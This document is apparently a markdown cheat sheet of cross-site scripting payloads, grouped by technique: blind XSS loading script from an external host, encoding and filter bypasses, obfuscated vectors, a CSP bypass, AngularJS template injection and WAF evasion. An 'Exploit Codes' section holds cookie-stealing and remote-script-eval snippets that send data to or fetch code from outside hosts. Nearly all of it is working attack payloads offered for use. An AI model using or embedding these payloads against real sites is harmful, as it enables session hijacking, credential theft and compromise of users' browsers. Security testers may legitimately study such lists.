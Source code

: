 > Blind XSS

```<script src=https://a007.xss.ht></script>```


> Encoding

```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```

```%253Cscript%253Ealert(1)%253C%252Fscript%253E```

```&lt;script&gt;confirm(1)&lt;/script&gt;```


> XML Based XSS

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>```


> Where :// is required after protocol

```javascript://%250aalert(1) ```


> XSS in email ID

```"\"><s>test"@gmail.com```


> alert, prompt, confirm is not allowed

```this[Object["keys"](this)[6]](1)```

```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```

```<svg/onload=t=/aler/.source+/t/.source;window.onerror=window[t];throw+1;//```

```[][`filter`][`constructor`](`ale`.concat(`rt\x28`.concat`0\x29`))();//```

```[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164\50\61\51')() ```

```([_,_____,_,_,__,___]=(__=[])+{___:__},[______,_,________,____,,_________,_______,__,,,__________]=[!!_____]+!_____+_____._____)[___+=_____+__________+__+______+_+________+___+______+_____+_][___](_________+_______+____+_+______+'(-~_____)')(__)```

```([,?,,,,??]=[]+{},[???,????,?????,??????,,???????,????????,?????????,,,??????????]=[!!?]+!?+?.?)[??+=?+??????????+?????????+???+????+?????+??+???+?+????][??](???????+????????+??????+????+???+'`1`')```


> Simple bypasses

```<body onpageshow=alert(1)>```

```<k onsubmit=alert(1)>```

```<k oninput=alert(1)>```

```<style onload=alert(1)>```

```<html ontouchstart=alert(1)>MobileXSS```

```<marquee behavior="alternate" onstart=alert(1)>XSS</marquee>```

```<script/x>alert(1)</script/x>```

```<details ontoggle=alert()>```

```<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>```

```<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>```

```<a/href=//0>```

```<script src=//14.rs>```

```<base href=//evil.com>```

```" onfocus=alert(1) autofocus```


> Obfuscated vectors

```<imG/sRc=l oNerrOr=(prompt)() x>```

```<d3"<"/onclick="1>[confirm``]"<">XSS```

```<svg/x=">"/onload=confirm()//```

```<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>```

```<svg </onload ="1> (_=prompt,_(1)) "">```

```<w="/x="y>"/ondblclick=`<`[confir\u006d``]>XXS```

```<A/iD=x hREf=jav&#x09;ascript:prom&#x09;pt(doc&#x09;ument.coo&#x09;kie); id=x>XSS```


> Exploit Codes

```Hidden Field data ~```

```<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>```

```Response on server ~```

```<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//127.0.0.1:8080");a.send();</script>```

```Cookie stealing with JS protocol ~```

```javascript:void(a='//127.0.0.1');void(b=document.domain);void(c=a.concat(b));void(window.location.assign(c));```


> Javascript XSS

```data:,alert(1)```

```\'-alert(1)//```

```'}alert(1);{'```

```'-alert()-'```

```'}alert(1)%0A{'```

```\'}alert(1);{//```


> CSP Bypassed

```<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1></script> <embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1)}//' allowscriptaccess=always>```


> Angular JS

```{{constructor.constructor('alert(1)')()}} ```

```<x ng-app>{{constructor.constructor('alert(1)')()}}```


> Misc

```<script ~~~>confirm(1)</script ~~~>```

```window+=valueOf=alert(1)```

```[cookie].some(alert)```

```<svgonload=alert(1)>```

```"accesskey=X onclick=alert(1)+```

```-alert(1)//\       (quoteless xss inside js context when param is reflecting 2 times in same line)```

```<svg onload=setInterval`alert\x28document.domain\x29`>```

```(alert)(1)```

```a=alert,a(1)	```

```[1].find(alert)```

```top["al"+"ert"](1)```

```top[/al/.source+/ert/.source](1)```

```al\u0065rt(1)```

```top['al\145rt'](1)```

```top[8680439..toString(30)](1)```

```<svg onload=alert&lpar;1&rpar;>```

```<svg onload=alert&#x28;1&#x29>```

```<svg onload=alert&#40;1&#41>```

```<svg onload=setInterval`alert\x28document.domain\x29`>```

```"><input type="submit" formaction="javascript&colon;this&lsqb;'a'&plus;'lert'&rsqb;`1`">```

```<body onfocus=alert(1)>```

```<object data=javascript:alert(1)>```

```<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">```

```<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>```

```<IFRAME SRC="javascript:alert('XSS');"></IFRAME>```

```%253cscript%253ealert(document.cookie)%253c/script%253e```

```<audio/onloadstart=alert(1) src>```

```%u0025%u0075%u0066%u0066%u0031%u0063%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065%u0061%u006c%u0065%u0072%u0074%u0028%u0018%u0058%u0053%u0053%u0019%u0029%u003b%u0025%u0075%u0066%u0066%u0031%u0063%u002f%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065```

```%uff1cscript%uff1ealert(1);%uff1c/script%uff1e```

```<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>                            akamai ghost wafbypass```


> Reference
```https://research.digitalinterruption.com/2018/12/18/a-deeper-look-into-xss-payloads/```
